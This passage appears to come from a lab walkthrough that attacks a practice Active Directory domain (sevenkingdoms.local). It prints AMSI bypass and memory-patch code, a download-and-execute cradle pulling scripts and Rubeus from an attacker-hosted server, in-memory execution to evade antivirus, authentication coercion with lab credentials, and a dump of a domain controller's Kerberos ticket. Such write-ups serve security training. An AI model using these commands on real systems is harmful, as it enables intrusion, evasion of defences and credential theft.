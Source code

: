 ```txt
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```

In the folder with the two files, start a python server:

`python3 -m http.server 8080`

Now, use the AMSI bypass in the rdp session:

`$x=[Ref].Assembly.GetType('System.Management.Automation.Am'+'siUt'+'ils');$y=$x.GetField('am'+'siCon'+'text',[Reflection.BindingFlags]'NonPublic,Static');$z=$y.GetValue($null);[Runtime.InteropServices.Marshal]::WriteInt32($z,0x41424344)`

`(new-object system.net.webclient).downloadstring('http://10.4.10.99:8080/amsi_rmouse.txt')|IEX`

![Pasted_image_20250113114737](https://github.com/user-attachments/assets/c98b7d72-c5a0-49c2-8227-35d7f7b3775f)

In order to avoid the possibility of being detected by antivirus or any endpoint detection tools, let's execute Rubeus from memory, instead of writing the executable file to disk.

And then see the available tickets:

`$data = (New-Object System.Net.WebClient).DownloadData('http://10.4.10.99:8080/Rubeus.exe')`

`$assem = [System.Reflection.Assembly]::Load($data);`

`[Rubeus.Program]::MainString("triage");`

![Pasted_image_20250113115134](https://github.com/user-attachments/assets/23e23918-8dd3-420b-9229-1865d19a2c5a)

Now force a coerce of the KingsLanding to the Winterfell:

`coercer coerce -u arya.stark -d north.sevenkingdoms.local -p Needle -t kingslanding.sevenkingdoms.local -l winterfell`

Continue some steps of the process by pressing the `c`.
![Pasted_image_20250113115734](https://github.com/user-attachments/assets/3113906a-b28e-4145-8904-80b62205f5ff)

Look at the triage again:

`[Rubeus.Program]::MainString("triage")`

And we see the `krbtgt` service from Kingslanding:

![Pasted_image_20250113115953](https://github.com/user-attachments/assets/2222fe51-3361-441d-8b35-6b9d288b3348)

Now to extract the tgt, relaunch again the coercer, do the same steps, and run the dump command in Rubeus.

`[Rubeus.Program]::MainString("dump /user:kingslanding$ /service:krbtgt /nowrap");`

![Pasted_image_20250113120149](https://github.com/user-attachments/assets/037ac6fc-5dad-49ca-9cb0-0acc921b27fe)

Save this to a file, and export it to the Kali Machine.
